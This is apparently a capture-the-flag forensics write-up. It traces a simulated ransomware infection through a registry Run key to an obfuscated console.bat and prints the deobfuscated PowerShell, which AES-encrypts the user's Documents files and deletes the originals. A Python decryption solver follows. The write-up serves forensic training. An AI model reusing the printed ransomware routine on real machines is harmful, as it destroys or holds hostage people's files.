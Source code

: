 ## Unsolved

The format of given file is AD1 so we need to check it with FTK Imager.

![image](https://github.com/user-attachments/assets/2106c011-7c08-4a26-83fa-5607aa1864de)

There is non-default user **sand-4ECC834FCF** so I tried to analyze it.
In description '.. when he installs something suddenly his device reboots and his files suddenly disappear .. ', we can assume the ransomware need to reboot/login for got executed. In windows you can set what device will do everytime user got login in Registry Key. 

I used Registry Explorer tool to check on registry HCKU:SOFTWARE\Microsoft\Windows\CurrentVersion\Run for malicious entry via NTUSER.DAT

![image](https://github.com/user-attachments/assets/6c1ba36e-b037-41ca-b6dc-cfc2b13853db)

We can know that there is file named **console.bat** was executed. The content of that file is encoded powershell code.

![image](https://github.com/user-attachments/assets/ffd3caf0-fc14-454c-b14d-28582ce9bf3c)

I used powerdecode tool to decode and deobfuscate it and this is the result.

```poweshell
function Encrypt-File {
    param (
        [string]$sourceFilePath,
        [string]$destFilePath,
        [string]$encryptionKey,
        [string]$initVector
    )
    
    $keyBytes = [System.Text.Encoding]::UTF8.GetBytes($encryptionKey)
    $ivBytes = [System.Text.Encoding]::UTF8.GetBytes($initVector)

    # Validate key length (must be 16, 24, or 32 bytes)
    if ($keyBytes.Length -ne 16 -and $keyBytes.Length -ne 24 -and $keyBytes.Length -ne 32) {
        throw "ERROR"
    }
    
    # Validate IV length (must be 16 bytes)
    if ($ivBytes.Length -ne 16) {
        throw "ERROR"
    }

    $aes = New-Object "System.Security.Cryptography.AesManaged"
    $aes.Key = $keyBytes
    $aes.IV = $ivBytes
    $aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

    $fileContent = [System.IO.File]::ReadAllBytes($sourceFilePath)
    $encryptor = $aes.CreateEncryptor()
    $encryptedContent = $encryptor.TransformFinalBlock($fileContent, 0, $fileContent.Length)

    # Combine IV and encrypted content
    [byte[]] $finalContent = $aes.IV + $encryptedContent
    $aes.Dispose()

    Write-Output $destFilePath
    $result = [System.IO.File]::WriteAllBytes($destFilePath, $finalContent)
    Write-Output "done"
    Remove-Item -Path $sourceFilePath
}

# Main script
$userDocuments = "C:\Users\" + $Env:UserName + "\Documents"
$sourcePath = $userDocuments
$encryptedFilesPath = "C:\Users\" + $Env:UserName + "\AppData\Local\Microsoft\Garage"

# Create directory for encrypted files
try {
    New-Item -Path $encryptedFilesPath -ItemType Directory -ErrorAction Stop
} catch [System.IO.IOException] {
    "Already Exist!"
}

# Registry path where encryption keys are stored
$registryPath = "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77"
$encryptionKey = (Get-ItemProperty -Path $registryPath -Name "59e2beee1b06")."59e2beee1b06"
$initVector = (Get-ItemProperty -Path $registryPath -Name "076a2843f321")."076a2843f321"

Write-Output $encryptionKey

if (-not (Test-Path -Path $registryPath)) {
    New-Item -ItemType Directory -Path $registryPath
}

# Get all files in the Documents folder
$files = Get-ChildItem -Path $sourcePath -File

# Encrypt each file
foreach ($file in $files) {
    $sourceFile = $file.FullName
    $destFile = Join-Path -Path $encryptedFilesPath -ChildPath $file.Name
    Encrypt-File $sourceFile $destFile $encryptionKey $initVector
}

Write-Output "dones"
```

That script encrypt all files from document folder and save it to \AppData\Local\Microsoft\Garage

![image](https://github.com/user-attachments/assets/73ad78b2-a7ea-4c6e-b27c-52ef936e253c)

From the script we can know the encryption method used is AES CBC using key and iv that stored to HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77

![image](https://github.com/user-attachments/assets/94f5538e-de4e-44ec-9d98-8b0babfe7366)

Here is the solver I used :

```python
from Crypto.Cipher import AES

file = open('seccreettttt_credentialll_confidentalll_moodd_booossteerrrr.pdf', 'rb').read()
key = b'ea0aaa5d53dddfe1'
iv = file[0:16]
encrypted = file[16:]

cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted = cipher.decrypt(encrypted)

result = open('result.pdf', 'wb').write(decrypted)
```

![image](https://github.com/user-attachments/assets/14e69fd8-a7fb-4bf6-ac97-fab79f814660)


